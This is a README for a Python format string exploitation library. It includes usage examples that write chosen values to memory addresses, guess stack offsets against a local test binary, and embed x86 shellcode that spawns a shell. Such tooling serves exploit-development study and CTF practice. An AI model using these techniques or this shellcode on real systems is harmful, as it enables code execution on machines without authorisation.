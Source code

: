 # pyfmtstr

format string exploitation library by cloud

This library shamelessly rips code from a bunch of existing libraries:
* postmodern - Ronin FormatString Helper
* Paul Haas - Defcon 18 Auto Format Brute Forcer
* hellman - libformatstr
* jduck - Metasploit FormatString Mixin

I just reoganized/combined things in a way that I prefer.

# Usage

### Generate simple fmtstr using %hn and DPA

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m)
sys.stdout.write(f.generate_fmtstr())
```

### Generate fmtstr using customized options

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m, num_pops=1, pad_bytes=2, printed_bytes=50)
f.set_caps(fpu=False, hn=True, dpa=True)
sys.stdout.write(f.generate_fmtstr())
```

### Dynamically guess offsets

```
from pyfmtstr import exploit
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" \
     "\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
e = exploit(binary="vuln_prog/printf", shellcode=sc)
sc_offset,sc_align  = e.dump_stack()
fmtstr_addr,sc_addr = e.find_fmtstr_address()
```

### Random helper functions 

```
from pyfmtstr import exploit
e = exploit(binary="vuln_prog/printf", shellcode=sc)
e.detect_caps()
e.detect_vulnerable()
e.stack_read(offset=1)
```

### Define your own dynamic parsing functions

```
def trigger_fmtstr(fmtstr):
    return fmtstr

def extract_fmtstr_output(output):
    return output

from pyfmtstr import exploit
e = exploit(binary="vuln_prog/printf")
e.trigger_fmtstr = trigger_fmtstr
e.extract_fmtstr_output = extract_fmtstr_output
fmtstr_addr,sc_addr = e.find_fmtstr_address()
```
